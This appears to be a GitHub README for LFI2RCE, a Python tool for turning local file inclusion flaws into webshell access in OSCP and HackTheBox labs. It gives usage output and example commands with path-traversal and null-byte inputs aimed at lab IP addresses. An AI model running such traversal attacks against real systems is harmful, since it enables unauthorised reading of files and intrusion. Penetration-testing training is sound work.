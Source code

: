 LFI2RCE
====

## Overview
LFI to RCE tool for OSCP.
## Description
This tool is used to exploit an LFI vulnerability to obtain a Webshell.
If you give a vulnerable URL to LFI, it will try LFI of a common file.
It does not have autopwn function, so it can be used in OSCP Exam.  
It is forbidden to use it for anything other than penetration testing.
## Demo
#### HackTheBox Poison.
![LFI-Poison](https://user-images.githubusercontent.com/56021519/81492511-44e78600-92d3-11ea-9ce5-1aade0b48f16.gif)
#### HackTheBox Beep.
![LFI-Beep](https://user-images.githubusercontent.com/56021519/81493157-110f5f00-92d9-11ea-9def-69563a7f7ded.gif)
## Example
```txt
root@kali:/# python lfi2rce.py --linux --username charix 10.10.10.84 /browse.php?file=../../../../../..  --error "failed to open stream" -v
```
```txt
root@kali:/# python lfi2rce.py --ssl --dir-file LFI-FD-check.txt 10.10.10.7 /vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../.. -v --nullbyte -o beep-files
```
## Requirement
```txt
root@kali:/# pip3 install requests
```
## Usage
```txt
root@kali:/# python lfi2rce.py -h
                    _     _____ ___ ____  ____   ____ _____  
                   | |   |  ___|_ _|___ \|  _ \ / ___| ____| 
                   | |   | |_   | |  __) | |_) | |   |  _|   
                   | |___|  _|  | | / __/|  _ <| |___| |___  
                   |_____|_|   |___|_____|_| \_\____|_____| 
usage: lfi2rce.py [-h] [--nullbyte] [--ssl] [--dir-file DIR_FILE] [--windows]
                  [--linux] [--username USERNAME] [--debug] [--error ERROR]
                  [-p PORT] [-v] [-k] [-o OUTDIR] [-s]
                  host path

brute force common file

positional arguments:
  host                  IP address to scan. Example: 127.0.0.1
  path                  Local file inclusion path. Example:
                        /browser.php?file=/../../../../..

optional arguments:
  -h, --help            show this help message and exit
  --nullbyte            terminate the url with null byte
  --ssl                 Use SSL for connection (https)
  --dir-file DIR_FILE   Input file for directory brute force
  --windows             Windows server
  --linux               linux server
  --username USERNAME   enter username if you know.
  --debug               Complete setup without running against host
  --error ERROR         Enter Error Messgage. Example: "No such file or
                        directory" "failed to open stream"
  -p PORT, --port PORT  Target port. Default: http 80 https 443
  -v, --verbose         Verbose output
  -k, --verify-ssl      Verify SSL certificates
  -o OUTDIR, --outdir OUTDIR
                        Write output to this directory
  -s, --show-output     show results to screen
root@kali:/# 
```
